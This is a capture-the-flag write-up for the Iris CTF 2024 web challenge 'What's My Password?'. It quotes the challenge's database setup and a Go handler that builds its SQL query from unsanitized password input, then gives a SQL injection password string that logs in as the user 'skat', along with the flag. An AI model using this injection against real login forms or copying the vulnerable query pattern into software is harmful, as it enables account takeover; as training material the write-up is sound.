




# What's My Password? (Iris CTF 2024 - Web Exploitation)

## Challenge
[baby] Oh no! Skat forgot their password (again)!

Can you help them find it?

https://whats-my-password-web.chal.irisc.tf

### Resource
[Download whats-my-password.tar.gz](https://cdn.2024.irisc.tf/whats-my-password.tar.gz)

## Manual Solve

Extract the whats-my-password.tar.gz file:

```bash
7z x ./resource/whats-my-password.tar.gz -o./resource/
```

```bash
7z x ./resource/whats-my-password.tar -o./resource/
```

Open ./resource/whats-my-password/

First, let's look at the Data Manipulation Language (DML) and Data Control Language (DCL) queries of the db in setup.sql:

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

We learn that the password column is named "password" and Skat's username (who forgot their password) is "skat".

In ./resource/whats-my-password/src/main.go we see the backend code.

We find that it sanitizes the username but not the password:

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

query, err := DB.Query(qstring)
```

Therefore, the query is vulnerable to SQL Injection.

The password to enter will be `" OR username = 'skat'"`

Payload (seen in the network request of Google Chrome's developer console):



Response (seen in the network request of Google Chrome's developer console):



### Flag
Flag: `irisctf{my_p422W0RD_1S_SQl1}`



## Solution using solve.py

Run the following command:

```bash
python solve.py
```

It will show the flag in the output and write it to the flag.txt file inside the ./solve relative directory.


